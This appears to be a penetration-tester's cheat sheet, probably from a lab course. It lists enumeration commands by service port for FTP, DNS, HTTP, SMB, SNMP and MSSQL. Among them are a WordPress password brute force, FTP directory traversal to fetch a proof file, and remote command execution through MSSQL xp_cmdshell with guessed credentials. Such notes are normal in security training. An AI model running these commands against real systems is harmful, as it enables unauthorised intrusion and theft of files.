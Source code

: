 ## Scan

### NMAP
```
nmap -A -Pn -n --top-ports 10000 -vvv -oN 192.168.27.68
nmap -sV -T5 -F -A 10.11.1.5 --open --script vuln
nmap -A -Pn -sC 10.11.1.8
nmap 10.11.1.125 --script ftp*
nmap -oN nmap2.txt -v -sU -sS -p- -A -T4 $ip
```
### NIKTO
```
nikto -h 10.10.10.10:8000
```

### DIRBUSTER
```
dirb http://10.11.1.31
```



### FTP - 21

```
nmap -v -p 21 --script=ftp-anon.nse $ip-25
```

Connect and get file via FTP
```
anonymous:anonymous
cd "Documents and Settings"
get servers.py

ls ../../../../../../../../../../../Docume~1/Administrateur/Bureau/
get
(remote-file) ../../../../../../../../../../../Docume~1/Administrateur/Bureau/proof.txt
(local-file) /root/Desktop/10.11.1.125.txt
```

### SMTP - 25

```
nc -nv $ip 25
```

### DNS - 53

```
dig a domain-name-here.com @nameserver
dig axfr domain-name-here.com @nameserver
dnsenum zonetransfer.me
```

### HTTP - 80,443 etc

Search folder
```
gobuster -w /usr/share/wordlists/dirb/common.txt -u $ip
dirb http://$ip/ wordlist.dict dirb <http://vm/>
dirb [http://$ip/](http://172.16.0.19/) -p $ip:<proxyPort>
uniscan -qweds -u <http://vm/>
```

Nikto
```
nikto -h $ip
```

WORDPRESS

```
wpscan -u "http://10.11.1.234" --wordlist /usr/share/wordlists/rockyou.txt --username admin
wpscan --url $ip/blog --proxy $ip:3129
```

### POP3 - 110

POP3 Enumeration
```
telnet $ip 110
USER billydean
PASS password
list
retr 1
```

### NFC - 111

Show Mountable NFS Shares
```
nmap -sV --script=nfs-showmount $ip
```

### RPC - 135, 389

```
rpcclient --user="" --command=enumprivs -N $ip
```

### SMB - 139, 445

SMB Enumeration Tools
```
enum4linux 10.11.1.8
smbclient //10.11.1.128/wwwroot
smbclient -L 10.11.1.128
rpcclient -U "" $ip
```

SMB OS & Port Scan & All Script
```
nmap $ip --script smb-os-discovery.nse
nmap -v -p 139,445 -oG smb.txt $ip-254
nmap -sV -Pn -vv -p 445 --script='(smb*) and not (brute or broadcast or dos or external or fuzzer)' --script-args=unsafe=1 $ip
nmap -sV -Pn -vv -p 445 --script-args smbuser=<username>,smbpass=<password> --script='(smb*) and not (brute or broadcast or dos or external or fuzzer)' --script-args=unsafe=1 $ip
```

### SNMP - 161,162

```
snmpcheck -t $ip -c public
snmpwalk -c public -v1 $ip 1|
grep hrSWRunName|cut -d\* \* -f
snmpenum -t $ip
onesixtyone -c names -i hosts
nmap -sV -p 161 --script=snmp-info $ip/24
```

SNMP Default Credentials
```
/usr/share/metasploit-framework/data/wordlists/snmp_default_pass.txt
```

### MSSQL - 1433

İnformation gathering

```
nmap -p 1433 --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER $ip

nmap 10.11.1.31 -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=sa,mssql.password=poiuytrewq,mssql.instance-name=MSSQLSERVER,ms-sql-xp-cmdshell.cmd='type C:\"Documents and Settings"\Administrator\Desktop\proof.txt'
```

